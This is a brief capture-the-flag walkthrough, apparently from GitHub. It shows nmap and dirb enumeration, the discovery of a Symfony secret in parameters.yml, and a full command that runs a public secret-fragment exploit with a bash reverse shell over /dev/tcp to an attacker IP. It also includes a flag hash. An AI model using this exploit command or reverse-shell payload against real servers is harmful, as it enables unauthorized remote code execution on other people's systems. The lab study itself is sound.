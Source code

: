 nmap scan

![image](https://user-images.githubusercontent.com/105762605/228873667-dbbd8fc5-07f7-4dad-982f-8772088e444d.png)

dirb scan --- found robots.txt

![image](https://user-images.githubusercontent.com/105762605/228874687-58d63b13-9dcc-40f2-9e59-27cd1919e656.png)

Access robots.txt, app_dev.php

![image](https://user-images.githubusercontent.com/105762605/228874390-91df6a53-dbf6-4fdb-b285-8a99328a1892.png)

Symfony platform is used, found app/config/parameters.yml

![image](https://user-images.githubusercontent.com/105762605/228877123-0a180b72-9f23-4b50-aa4d-13b207437288.png)

Based on https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py and used the key above to reverse the shell

python attack2.py 'http://ip/_fragment' --method 2 --secret 'keys' --algo 'sha256' --internal-url 'http://ip/_fragment' --function system --parameters "bash -c 'bash -i >& /dev/tcp/ip/80 0>&1'"

![image](https://user-images.githubusercontent.com/105762605/228889897-0807e507-0659-484c-a21d-de693cbc9663.png)

Go to dirctory /home/benoit and find first flag: 813365d74b4ffc9f7052e9e888d6396c

![image](https://user-images.githubusercontent.com/105762605/228890553-0dfca038-3a70-4ad5-a2c3-ecee9e1e9489.png)


